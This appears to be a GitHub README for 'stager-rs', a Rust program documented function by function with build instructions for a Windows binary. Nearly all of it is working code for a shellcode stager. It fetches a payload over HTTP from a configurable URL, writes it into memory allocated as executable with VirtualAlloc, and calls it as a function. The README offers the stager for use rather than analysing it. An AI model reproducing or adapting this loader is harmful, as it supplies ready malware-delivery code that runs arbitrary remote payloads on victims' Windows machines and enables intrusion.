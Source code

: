 # stager-rs

This program allocates executable memory, downloads shellcode from a URL, writes the shellcode to that memory, and executes it.

## Build Instructions

__Compiling from Windows__ : `cargo build --release`


This will generate a binary located at:

```
target/release/stager.exe
```

__Compiling from Unix-based Systems__:  `cargo build --target x86_64-pc-windows-gnu --release`

This will generate a binary located at:

```bash
target/x86_64-pc-windows-gnu/release/stager.exe
```

## Detailed Breakdown

### 1. `fetch_payload(url: &String) -> Result<Vec<u8>, Box<dyn Error>>`

This function sends an HTTP GET request to the specified URL and retrieves the response body, which is expected to be the shellcode. It converts the response bytes into a `Vec<u8>` for further processing.

```rust
fn fetch_payload(url: &String) -> Result<Vec<u8>, Box<dyn Error>> {
    let client = Client::new();
    let response = client.get(url).send()?;
    let shellcode = response.bytes()?.to_vec();

    Ok(shellcode)
}
```

- The `reqwest::blocking::Client` is used for synchronous HTTP requests.
- The shellcode is fetched as raw bytes and returned as a vector.

### 2. `allocate_memory(dwsize: usize) -> *mut u8`

This function allocates memory for the shellcode using `VirtualAlloc`. The memory is allocated with `MEM_COMMIT` and `MEM_RESERVE` flags, and the protection is set to `PAGE_EXECUTE_READWRITE`.

```rust
unsafe fn allocate_memory(dwsize: usize) -> *mut u8{
    VirtualAlloc(
        None,
        dwsize,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    ) as *mut u8
}
```

- `dwsize` is the size of the memory to allocate, based on the length of the shellcode.
- The `VirtualAlloc` function is called with the appropriate flags to allocate memory that can be executed.

### 3. `execute_payload(shellcode: &[u8], pointer: *mut u8) -> Result<(), Box<dyn Error>>`

In this function, the shellcode is copied into the allocated memory, and the memory is treated as a function pointer for execution.

```rust
unsafe fn execute_payload(shellcode: &[u8], pointer: *mut u8) -> Result<(), Box<dyn Error>> {
    pointer.copy_from_nonoverlapping(shellcode.as_ptr(), shellcode.len());

    let func: extern "stdcall" fn() = std::mem::transmute(pointer);

    func();
    
    Ok(())
}
```

- `copy_from_nonoverlapping` is used to copy the shellcode into the allocated memory.
- The memory is then cast into an executable function pointer using `std::mem::transmute`.
- The shellcode is executed by calling the function pointer.

### 4. `main`

The `main` function coordinates the program:

```rust
fn main() {
    unsafe {

        let url= String::from("http://127.0.0.1:8080/shellcode"); // CHANGE THIS LINE
        let shellcode = fetch_payload(&url).unwrap();
        let dwsize = shellcode.len();
        let pointer = allocate_memory(dwsize);

        execute_payload(&shellcode, pointer);
    }
}
```

- It sets the URL for the shellcode (`http://127.0.0.1:8080/shellcode`) — this URL should point to the location where the shellcode is hosted.
- It then calls the previously defined functions to fetch, allocate memory, and execute the shellcode.

## Example Output

![screenshot](https://github.com/user-attachments/assets/ef470625-4c69-4b66-b1a2-fb9967367b8c)


